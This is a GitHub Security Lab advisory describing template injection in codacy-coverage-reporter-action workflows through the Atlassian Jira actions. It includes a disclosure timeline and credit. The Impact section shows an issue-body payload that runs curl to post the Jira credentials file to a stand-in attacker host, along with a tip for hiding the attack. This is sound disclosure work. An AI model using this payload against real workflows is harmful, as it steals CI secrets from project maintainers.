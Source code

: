 <header class="post-header d-block mb-6">
      <div class="date text-mono f5 my-3">December 3, 2020</div>
      <h1 class="my-2 h00-mktg lh-condensed">GHSL-2020-179: Template injection in the GitHub workflows of codacy-coverage-reporter-action repository</h1>

      
      
      
      
      

      

      <a target="_blank" class="sc-frDJqD SgxRc d-inline-flex flex-row flex-items-center text-gray" href="https://github.com/jarlob">
        <img class="mr-3" src="https://avatars.githubusercontent.com/u/26652396?s=35" height="35" width="35">
        <span>Jaroslav Lobacevski</span>
      </a>
    </header>

    <main id="content" class="markdown-body" aria-label="Content">
      <h2 id="summary">Summary</h2>

<p>Automatic GitHub workflows in <a href="https://github.com/codacy/codacy-coverage-reporter-action">codacy-coverage-reporter-action repository</a> are vulnerable to template injection from user comments.</p>

<h2 id="product">Product</h2>

<p><a href="https://github.com/codacy/codacy-coverage-reporter-action">codacy-coverage-reporter-action GitHub repository</a></p>

<h2 id="tested-version">Tested Version</h2>

<p>Master branch.</p>

<h2 id="details">Details</h2>

<h3 id="issue-hidden-expression-expansion-of-input-parameters-passed-to-atlassiangajira-create-or-atlassiangajira-comment">Issue: Hidden expression expansion of input parameters passed to <code class="language-plaintext highlighter-rouge">atlassian/gajira-create</code> or <code class="language-plaintext highlighter-rouge">atlassian/gajira-comment</code></h3>

<p><a href="https://github.com/codacy/codacy-coverage-reporter-action/blob/master/.github/workflows/comment_issue.yml"><code class="language-plaintext highlighter-rouge">Jira Add comment on issue</code> step in comment_issue.yml</a>, <a href="https://github.com/codacy/codacy-coverage-reporter-action/blob/master/.github/workflows/create_issue.yml"><code class="language-plaintext highlighter-rouge">Jira Create issue</code> step in create_issue.yml</a> and <a href="https://github.com/codacy/codacy-coverage-reporter-action/blob/master/.github/workflows/create_issue_on_label.yml"><code class="language-plaintext highlighter-rouge">Jira Create issue</code> step in create_issue_on_label.yml</a> workflows are vulnerable to template injection.</p>

<p><code class="language-plaintext highlighter-rouge">${{ github.event.issue.title }}</code>,<code class="language-plaintext highlighter-rouge">${{ github.event.issue.body }}</code> and <code class="language-plaintext highlighter-rouge">${{ github.event.comment.body }}</code> are used to format input values to <code class="language-plaintext highlighter-rouge">atlassian/gajira-create(comment)</code> actions. For example:</p>

<div class="language-yaml highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="na">on</span><span class="pi">:</span>
  <span class="na">issues</span><span class="pi">:</span>
    <span class="na">types</span><span class="pi">:</span> <span class="pi">[</span> <span class="nv">opened</span> <span class="pi">]</span>
<span class="nn">...</span>
<span class="na">uses</span><span class="pi">:</span> <span class="s">atlassian/gajira-create@v2.0.0</span>
<span class="na">with</span><span class="pi">:</span>
    <span class="na">summary</span><span class="pi">:</span> <span class="s2">"</span><span class="s">[GH#${{</span><span class="nv"> </span><span class="s">github.event.issue.number</span><span class="nv"> </span><span class="s">}}]</span><span class="nv">  </span><span class="s">${{</span><span class="nv"> </span><span class="s">github.event.issue.title</span><span class="nv"> </span><span class="s">}}"</span>
    <span class="na">description</span><span class="pi">:</span> <span class="pi">|</span>
    <span class="s">${{ github.event.issue.body }}</span>
    <span class="s">----</span>
    <span class="s">{panel}</span>
    <span class="s">_[Github permalink |${{ github.event.issue.html_url }}]_</span>
    <span class="s">{panel}</span>
</code></pre></div></div>

<p>However the Atlassian actions have a hidden feature - they expand <code class="language-plaintext highlighter-rouge">{{}}</code> internally. This way when the issue title or body contains an expression in double curly braces it is evaluated by node.js in these actions.</p>

<h4 id="impact">Impact</h4>

<p>This vulnerability allows for arbitrary code execution in the context of GitHub runner. For example a user may create an issue with the title <code class="language-plaintext highlighter-rouge">It doesn't work on my machine</code> and the body</p>

<div class="language-js highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="p">{{</span> <span class="nx">process</span><span class="p">.</span><span class="nx">mainModule</span><span class="p">.</span><span class="nx">require</span><span class="p">(</span><span class="dl">'</span><span class="s1">child_process</span><span class="dl">'</span><span class="p">).</span><span class="nx">exec</span><span class="p">(</span><span class="s2">`curl -d @</span><span class="p">${</span><span class="nx">process</span><span class="p">.</span><span class="nx">env</span><span class="p">.</span><span class="nx">HOME</span><span class="p">}</span><span class="s2">/.jira.d/credentials http://evil.com`</span><span class="p">)</span> <span class="p">}}</span>
</code></pre></div></div>

<p>which will exfiltrate the secret Jira API token to the attacker controlled server. To make the attack less visible an attacker may modify the body of the issue to <code class="language-plaintext highlighter-rouge">Never mind my bad.</code> and close it.</p>

<h2 id="coordinated-disclosure-timeline">Coordinated Disclosure Timeline</h2>

<ul>
  <li>10/14/2020: Report sent to vendor</li>
  <li>10/26/2020: Acknowledged by vendor</li>
  <li>10/29/2020: Issue fixed</li>
</ul>

<h2 id="credit">Credit</h2>

<p>This issue was discovered and reported by GHSL team member <a href="https://github.com/JarLob">@JarLob (Jaroslav Lobačevski)</a>.</p>

<h2 id="contact">Contact</h2>

<p>You can contact the GHSL team at <code class="language-plaintext highlighter-rouge">securitylab@github.com</code>, please include a reference to <code class="language-plaintext highlighter-rouge">GHSL-2020-179</code> in any communication regarding this issue.</p>

   
